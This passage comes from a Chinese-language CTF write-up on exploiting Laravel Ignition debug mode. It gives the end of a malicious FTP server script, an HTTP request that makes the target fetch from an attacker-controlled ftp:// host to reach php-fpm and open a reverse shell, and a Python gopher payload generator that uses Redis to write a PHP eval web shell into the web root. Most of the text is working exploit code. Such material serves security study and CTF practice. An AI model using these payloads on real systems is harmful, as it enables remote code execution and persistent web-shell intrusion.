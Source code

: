         # 第一次连接是下载文件，需要告诉客户端下载已经结束
        if count == 1:
            conn.send(b"226 \n")
        conn.close()
        count += 1
    

运行上述脚本，一个恶意ftp服务就起来了：

这个脚本做的事情很简单，就是当客户端第一次连接的时候返回我们预设的payload；当客户端第二次连接的时候将客户端的连接重定向到
127.0.0.1:9000，也就是目标主机上 php-fpm 服务的端口，从而造成 SSRF，攻击其 php-fpm。

最后，构造如下请求，即可触发攻击并反弹 Shell：

    
    
    POST /_ignition/execute-solution HTTP/1.1
    Host: 192.168.1.12:8000
    Content-Type: application/json
    Content-Length: 189
    
    {
      "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
      "parameters": {
        "variableName": "username",
        "viewFile": "ftp://aaa@192.168.1.7:23/123"
      }
    }
    

###  [2021 羊城杯CTF]Cross The Side

进入题目，又是 Laravel：

根据 Laravel 的版本猜测应该是 Laravel Debug mode RCE，但是尝试 Debug RCE
并没有成功，可能是日志文件太大的原因。然后端口扫描发现其本地 6379 端口上有一个 Redis，猜测本题应该是通过 FTP 被动模式打内网的
Redis。参照前面所讲的原理，直接打就行了。

首先生成攻击 Redis 的 Gophar Payload：

    
    
    import urllib
    protocol="gopher://"
    ip="127.0.0.1"
    port="6379"
    shell="\n\n<?php eval($_POST[\"whoami\"]);?>\n\n"
    filename="shell.php"
    path="/var/www/html"
    passwd=""    # 此处也可以填入Redis的密码, 在不存在Redis未授权的情况下适用
    cmd=["flushall",
         "set 1 {}".format(shell.replace(" ","${IFS}")),
         "config set dir {}".format(path),
         "config set dbfilename {}".format(filename),
         "save"
         ]
    if passwd:
        cmd.insert(0,"AUTH {}".format(passwd))
    payload=protocol+ip+":"+port+"/_"
    def redis_format(arr):
        CRLF="\r\n"
        redis_arr = arr.split(" ")
        cmd=""
        cmd+="*"+str(len(redis_arr))
        for x in redis_arr:
            cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
        cmd+=CRLF
        return cmd
    